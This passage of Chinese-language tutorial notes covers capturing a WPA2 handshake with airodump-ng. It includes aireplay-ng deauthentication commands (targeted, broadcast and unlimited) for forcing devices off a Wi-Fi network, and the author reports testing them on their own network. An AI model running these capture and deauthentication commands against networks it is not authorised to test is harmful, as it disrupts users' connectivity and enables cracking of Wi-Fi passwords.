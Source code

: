 ![3.png](https://cdn.jsdelivr.net/gh/sword4869/pic1@main/images/202407130814077.png)

第一个列表：无线网络 AP：

- BSSID: 无线 AP 的硬件地址
- PWR: 信号强度，值是负数，越大表示信号越强
- CH: 无线网络信道
- ENC: 加密方式，我们要破解的是 WPA2
- CIPHER：加密算法。一般，TKIP 与 WPA、CCMP 与 WPA2.
- ESSID: 无线网络的名称

第二个列表：无线网络 AP 中的用户设备：

- BSSID: 无线 AP 的硬件地址
- STATION: 用户设备的硬件地址（mac 地址）
- Probe：无线网络 AP的备注。

按键：

- a: 选择不同显示模式。不用动，就默认模式
- o/p: 开启/关闭**颜色标注**。标准有设备的无线网络AP。
- s: 排序规则。我们选择 **sorting by power level**

### 开始抓包 airodump-ng

```bash
# airodump-ng -c {CH} --bssid {BSSID} -w {包文件路径前缀} {无线网卡名称}
airodump-ng -c 6 --bssid 5C:02:14:A4:38:50 -w /home/kali/Desktop/23 wlan0mon
airodump-ng -c 8 --bssid 50:55:8D:C0:14:5F -w /home/kali/Desktop/cmcc wlan0mon


┌──(root㉿kali)-[/home/kali/Desktop]
└─# ls   
23-01.cap  23-01.csv  23-01.kismet.csv  23-01.kismet.netxml  23-01.log.csv
```

### 强制断开 aireplay-ng（可选）

在抓取期间，如果有设备重新链接到这个 wifi，那么才能获取到握手包。

这条作用就是让已经链接上的设备断开重连。

```bash
# aireplay-ng -0 {发送反认证包的个数} -a {BSSID} -c {强制下线的MAC地址(STATION)} {无线网卡名称}
aireplay-ng -0 5 -a 5C:02:14:A4:38:50 -c 46:96:65:7D:6C:FB wlan0mon

# 省去 -c 就是广播。
aireplay-ng -0 5 -a 50:55:8D:C0:14:5F  wlan0mon

# -0 0: 无限包
aireplay-ng -0 0 -a D4:35:38:BD:4C:99 wlan0mon
```

问题：拿自己wifi实验，都没断开成功……

### 握手成功
